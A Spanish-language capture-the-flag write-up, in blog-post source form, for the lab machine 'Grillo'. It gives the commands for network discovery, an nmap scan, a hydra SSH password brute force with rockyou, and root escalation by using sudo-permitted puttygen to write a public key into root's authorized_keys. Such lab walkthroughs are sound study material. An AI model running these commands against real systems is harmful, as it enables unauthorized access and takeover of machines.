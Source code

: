 ```yaml
---
layout: post
title: "Grillo"
date: 2024-06-06 11:35:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Grillo </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/grillo/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Grillo/host.png){:.margin}

**1\.** Identificando dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Grillo/arp.png){:.margin}

**2\.** Escaneo de puertos y servicios activos.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/nmap.png){:.margin}

**3\.** En la web tenemos la pagina de Apache por 'defecto', viendo el codigo fuente por debajo encontramos algo.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Grillo/80code.png){:.margin}

**4\.** Haciendo fuerza bruta al ssh. 

`hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/hydra.png){:.margin}

**5\.** Me conecto por ssh.

`ssh melanie@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/sshmelanie.png){:.margin}

**6\.** Reviso binarios que pueda ejecutarlo como sudo.

`sudo -ll`

![img](/notas/public/img/thehackerlabs/Grillo/sudoll.png){:.margin}

**7\.** Genero claves ssh.

`ssh-keygen`

![img](/notas/public/img/thehackerlabs/Grillo/sshkeygen.png){:.margin}

**8\.** Escalando privilegios.

_\- Agrego la clave publica al authorized_keys de root_

`sudo /usr/bin/puttygen .ssh/id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys`

_\- Me conecto por ssh como root_

`ssh root@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>